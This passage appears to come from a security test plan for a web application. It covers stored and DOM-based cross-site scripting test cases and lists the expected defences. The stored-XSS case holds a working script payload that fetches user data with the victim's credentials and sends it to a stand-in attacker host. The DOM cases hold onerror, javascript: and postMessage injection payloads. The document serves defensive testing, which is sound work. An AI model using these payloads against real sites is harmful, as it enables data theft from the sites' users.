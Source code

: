 **Expected Result**:
- All output HTML-encoded
- Content-Type headers set correctly
- CSP headers prevent execution

### Test Case: XSS-002 - Stored XSS

**Objective**: Test for stored XSS in user-generated content

**Test Steps**:
```javascript
// 1. Create order with XSS payload
POST /api/v1/orders
{
  "customer_id": 1,
  "notes": "<script>fetch('/api/v1/users', {credentials: 'include'}).then(r=>r.text()).then(d=>fetch('http://attacker.com/steal?data='+btoa(d)))</script>",
  "items": [{"product_id": 1, "quantity": 1}]
}

// 2. View order in admin panel
GET /admin/orders/123

// 3. Check if script executes
// Monitor network tab for outbound requests
```

**Expected Result**:
- Input sanitized before storage
- Output encoding on display
- No script execution

### Test Case: XSS-003 - DOM-Based XSS

**Objective**: Test client-side XSS vulnerabilities

**Test Steps**:
```javascript
// 1. Fragment identifier attack
window.location = "https://app.luckygas.com/#<img src=x onerror=alert('XSS')>"

// 2. URL parameter manipulation
window.location = "https://app.luckygas.com/?redirect=javascript:alert('XSS')"

// 3. PostMessage exploitation
window.postMessage({
  action: "updateUI",
  html: "<img src=x onerror=alert('XSS')>"
}, "*")
```

**Expected Result**:
- Client-side input validation
- Safe DOM manipulation methods
- PostMessage origin validation
